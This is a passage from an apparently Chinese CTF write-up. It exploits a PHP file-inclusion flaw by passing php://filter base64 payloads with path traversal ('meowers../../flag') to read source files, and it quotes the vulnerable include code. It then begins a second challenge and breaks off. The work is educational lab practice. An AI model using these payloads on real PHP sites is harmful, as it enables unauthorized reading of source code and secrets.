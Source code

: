 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611203052371.png)
这不就来了嘛~，报错信息告诉我们它包含文件的格式，原来是在我们路径的末尾还要加一个`.php`

我们可以试着找一找`flag.php`

在目录后面跟`../flag`

发现只有`../../flag`页面没报错，所以`flag.php`就在这个目录下

那我们可以试试读取源码

`php://filter/read=convert.base64-encode/resource=index`记住别加`.php`，因为页面给你加了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611203720940.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
解码后发现源码里面有这么一段

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){//只要路径里面有woofers、meowers或者index就包含对应的php文件
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>

```

我们试着读取一下`meowers../../flag.php`的源码

`php://filter/read=convert.base64-encode/resource=meowers../../flag`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021061120443646.png)![在这里插入图片描述](https://img-blog.csdnimg.cn/20210611204534684.png)

哈哈哈哈哈我是不是学会文件包含结合伪协议了啊哈哈哈，开心

**文件包含！伪协议！**

# [WUSTCTF2020]朴实无华

这个题目的界面是挺朴实无华的，很简洁很简洁

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210614165226191.png)

输入错误的文件的话会这样提示

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210614165259434.png)
我还正在怀疑这是怎么判断的，抓包看了一下发现也没有传参

正在纳闷的时候看到这个标题
